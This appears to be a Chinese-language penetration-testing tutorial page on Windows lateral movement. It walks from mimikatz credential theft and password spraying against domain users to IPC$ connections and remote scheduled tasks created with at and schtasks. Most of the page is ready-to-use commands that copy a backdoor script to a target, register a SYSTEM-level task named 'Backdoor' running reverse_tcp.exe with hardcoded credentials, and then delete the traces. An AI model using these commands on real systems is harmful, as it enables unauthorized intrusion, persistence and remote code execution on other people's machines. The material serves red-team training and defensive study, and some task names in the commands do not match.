 **获取到某域主机权限->minikatz 得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典->尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令**

### [利用流程](https://tttang.com/archive/1890/#toc__1)

\1. 建立 IPC 链接到目标主机

\2. 拷贝要执行的命令脚本到目标主机

\3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

\4. 删除 IPC 链接

ps: **Windows Server 2012 以后的版本没有at命令，只有schtasks命令**

### [at（计划任务）](https://tttang.com/archive/1890/#toc_at)

利用过程如下：

`net time \\192.168.1.131 # 查看时间 at \\192.168.1.131 10:30 cmd.exe /c "whoami > c:\result.txt" # 结果输出到 result 下 type \\192.168.1.131\c$\result.txt # 查看执行结果 at \\192.168.1.131 1 /delete # 删除计划任务，1是任务号 copy hack.bat \\192.168.1.131\c$\Windows\Temp # 上传 bat 脚本 net time \\192.168.1.131                                                         # 查看时间 at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat # 创建定时任务，执行木马脚本 at \\192.168.1.131                                                               # 查看任务列表`

### [schtasks（计划任务）](https://tttang.com/archive/1890/#toc_schtasks)

操作步骤：

1. 利用已建立的IPC连接上传后门程序
2. 利用已建立的IPC连接或指定用户凭据的方式在远程主机上创建计划任务shell

`schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F # /S 指定要连接的系统； /TN 指定计划任务的名称 # /SC 指定计划任务执行频率；  /MO 指定计划任务执行周期 # /TR 指定计划任务执行程序；  /RU 指定计划任务运行的用户权限 # /F  如果指定的任务已存在，则强制创建`

如果没有建立IPC连接，则需要指定远程主机的用户凭据

`schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F /U Administrator /P 123qwe@`

- 创建完成后，可以等待计划任务自行执行，也可以立即启动计划任务shell

`schtasks /RUN /S 192.168.1.131 /I /TN Backdoor`

- 查看计划任务shell

`schtasks /query /S 192.168.1.131 /TN Backdoor`

- 删除计划任务shell

`schtasks /Delete /S 192.168.1.131 /TN Backdoor /F`

也可以通过计划任务执行系统命令，将执行结果写入文件，然后使用type命令查看文件

`schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR "c:\windows\system32\cmd.exe /c 'whoami' > c:\users\public\result.txt" /RN System /F  type \\192.168.1.131\C$\users\public\result.txt copy C:\Users\Administrator\Desktop\hack.bat \\192.168.1.131\c$\Windows\Temp  schtasks /create /tn hack /tr C:\Windows\Temp\hack.bat /sc ONSTART /s 192.168.1.131 /ru "system" /u administrator /p 123qwe@  schtasks /run /tn hackk /s 192.168.1.131  type \\192.168.1.131\c$\Windows\Temp\result.txt  schtasks /delete /s 192.168.1.131 /u administrator /p 123qwe@ /tn hackk /f`
